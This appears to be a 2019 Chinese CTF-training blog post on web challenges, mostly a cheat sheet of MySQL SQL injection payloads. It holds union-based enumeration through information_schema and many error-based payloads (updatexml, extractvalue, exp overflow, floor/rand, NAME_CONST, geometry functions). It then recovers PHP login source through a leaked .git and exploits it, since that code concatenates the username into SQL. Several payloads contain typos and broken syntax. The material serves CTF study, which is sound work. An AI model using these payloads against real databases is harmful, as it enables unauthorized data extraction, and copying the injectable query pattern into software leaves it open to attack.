


title: Xman_web
tags: web
date: 2019/8/5
categories: xman
sql注入漏洞可能是被人知道最多
``` txt
利用内置函数爆数据库信息及相关信息 version() database() user() current_user() @@datadir 数据库路径 @@basedir mysql安装路径 @@version_compile_os 操作系统
```爆字段长度 order by num –+
匹配字段 and 1=2 union select 1,2,3,4,5… –+
利用内置函数爆数据库信息
(MySQL>5.0)
获取数据库 and 1=2 union select 1, 2, schema_name from information_schema.schemata limit 0(0为第一个开始记录),1(显示1条记录) --+
获取表 and union select 1, 2, table_name from information_schema.tables where table_schema = '数据库名字'(最常用的是十六进制表示的数据库) limit 0,1 --+
获取列 and union select 1, 2, column_name from information_schema.columns where table_schema = 0x十六进制数据库 and tanle_name = 0x十六进制表 limit 0,1 --+一般后台输入id闭合有 $id, '$id', "$id", ('$id'), ("$id")无正常会显示报错注入
在单引号后面加and在加报错语句就行了
extractvalue(1,concat(0x7e,(select @@version),0x7e)) 、
extractvalue(rand(),concat(0x3a,version())),1
updatexml(1,concat(0x7e,(select @@version),0x7e),1)
//利用updatexml(1,2,3)函数注入，不用管该函数什么意思，只要知道当中间2的值不符合xpath_string格式就会报错，爆出查询内容，可配合concat(1,###,1)使用。ExtractValue()与upadtexml()用法差不多
select exp(~(select * FROM(SELECT USER())a))
//double数值类型超出范围, exp溢出报错 mysql> select exp(~(select*from(select user())x)); （通过exp溢出，~取反，子查询（子查询的结果被主查询使用）进行注入，意思是主查询虽然被报错了，但子查询执行了.
select !(select * from (select user())x) - ~0 (上面两个减号)
//bigint超出范围；~0是对0逐位取反，就是对~0进行加减1运算导致溢出报错，而1由!(双重查询语句)构成，子查询会在报错进行查询,很大的版本在5.5.5及其以上
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
//mysql重复特性，此处重复了version，所以报错。
通过floor报错,注入语句如下:
select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
通过NAME_CONST报错,注入语句如下:
and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)
通过join报错,注入语句如下:
select * from(select * from mysql.user ajoin mysql.user b)c;
通过GeometryCollection()报错,注入语句如下:
and GeometryCollection(()select *from(select user () )a)b );
通过polygon ()报错,注入语句如下:
and polygon (()select * from(select user ())a)b );
通过multipoint ()报错,注入语句如下:
and multipoint (()select * from(select user() )a)b );
通过multlinestring ()报错,注入语句如下:
and multlinestring (()select * from(selectuser () )a)b );
通过multpolygon ()报错,注入语句如下:
and multpolygon (()select * from(selectuser () )a)b );
通过linestring ()报错,注入语句如下:
and linestring (()select * from(select user() )a)b );
#仅可以报错出数据库名、表名的语句
polygon(id)
linestring(id)
multipolygon(id)
linestring(id)
multilinestring(id)
1' and polygon(id) and'
1' and linestring(id) and'
# Illegal non geometric '`supersqli`.`words`.`id`' value found during parsing

地址: http://207.246.92.120:8001/
git源码泄露—>恢复源码
python GitHack.py http://www.example.cm/.git/源码分析:
session_start();
require('db.php');
require('flag.php');
if ((isset($_POST['username'])&&isset($_POST['password'])))
{
try
{
$user=$_POST['username'];
$pwd=md5($_POST['password']);
$query="SELECT password FROM admin WHERE username='".$user."'";
$result=$pdo->query($query);
if ($result!=null&&$result->rowCount()!==0)
{
while($row = $result->fetch())
{
if ($row['password']===$pwd)
echo $flag;
else
{
echo '<div class="alert alert-error"> <a class="close" data-dismiss="alert">×</a><strong>密码错误</strong></div>';
}
}
}
else
{
echo '<div class="alert alert-error"> <a class="close" data-dismiss="alert">×</a><strong>用户名错误</strong></div>';
}
}
catch(Exception $e)
{
echo '<div class="alert alert-error"> <a class="close" data-dismiss="alert">×</a><strong>用户名错误</strong></div>';
}
}
sqlmap跑或者盲注